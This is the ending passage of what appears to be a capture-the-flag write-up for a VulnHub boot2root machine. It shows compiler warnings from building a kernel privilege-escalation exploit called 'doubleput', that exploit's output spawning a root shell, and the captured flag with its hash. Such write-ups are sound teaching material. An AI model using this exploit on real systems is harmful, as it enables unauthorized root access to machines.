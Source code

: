     .insns = (__aligned_u64) insns,
             ^
doubleput.c:92:15: warning: cast from pointer to integer of different size [-Wpointer-to-int-cast]
    .license = (__aligned_u64)""
               ^
$ ./doubleput
{% endhighlight %}

<p>Will it work or not? </p>

{% highlight bash %}
starting writev
woohoo, got pointer reuse
writev returned successfully. if this worked, youll have a root shell in <=60 seconds.
suid file detected, launching rootshell...
we have root privs now...
whoami
root
cd /root
ls
fix-wordpress.sh
flag.txt
issue
python.sh
wordpress.sql
cat flag.txt
~~~~~~~~~~<(Congratulations)>~~~~~~~~~~
                            .--.
                          | ----- |
                          |-.....-|
                          |       |
                          |       |
         _,._             |       |
    __.o   o-.            |       |
 .-O o -.o   O )_,._      |       |
( o   O  o )--.-O   o-.-----
 --------  (   o  O    o)  
              ----------
b6b545dc11b7a270f4bad23432190c75162c4a2b

{% endhighlight %}

<p>And yes, we've done it! We have the root access! </p>

<p>It was great challenge, thanks <a href="https://www.vulnhub.com/author/g0tmi1k,21/">G0tim1k</a> for creating this boot2root machine. I hope you had as much fun reading this as I had thinking about the ways to gain root access and finish this challenge. Stay in touch for more machines from Vulnhub.com! </p>

<p>~ Stay safe! </p>
